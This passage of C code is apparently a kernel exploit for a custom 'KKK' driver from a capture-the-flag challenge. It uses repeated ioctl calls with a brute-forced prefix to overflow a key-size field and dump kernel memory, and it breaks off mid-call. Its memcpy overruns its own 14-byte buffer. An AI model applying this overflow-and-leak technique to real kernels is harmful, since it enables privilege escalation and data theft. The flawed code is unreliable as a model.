 ```c
    unsigned char data[14] = {0};

    // bruteforce result here
    // # prefix b'\xee)\xa4\xbd\x9a.' support value 1022
    memcpy(data + 8, "\xee)\xa4\xbd\x9a.", 14);

    add_arg.type = KKK_CRYPTO_DES;
    add_arg.enc = 1;
    add_arg.key.ptr = key;
    add_arg.key.size = 450;
    add_arg.data.ptr = data;
    add_arg.data.size = 14; // 2 bytes misaligan :)

    r = ioctl(fd, KKK_IOCTL_ADD, &add_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_ADD");
        goto leave;
    }
    r = ioctl(fd, KKK_IOCTL_ADD, &add_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_ADD");
        goto leave;
    }

    r = ioctl(fd, KKK_IOCTL_ADD, &add_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_ADD");
        goto leave;
    }

    // make the kernel stack bigger enough
    r = ioctl(fd, KKK_IOCTL_ADD, &add_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_ADD");
        goto leave;
    }

    // then we try to overflow with launch
    int id = 0;
    other_arg.id = id;
    r = ioctl(fd, KKK_IOCTL_LAUNCH, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_LAUNCH");
        goto leave;
    }
    // the id'1 keysize will now be extremely large
    // dump it
    id = 1;
    unsigned char keybuf[65535] = {0};
    unsigned char databuf[30] = {0};
    other_arg.id = id;
    other_arg.key.ptr = keybuf;
    other_arg.data.ptr = data;

    r = ioctl(fd, KKK_IOCTL_DUMP, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_DUMP");
```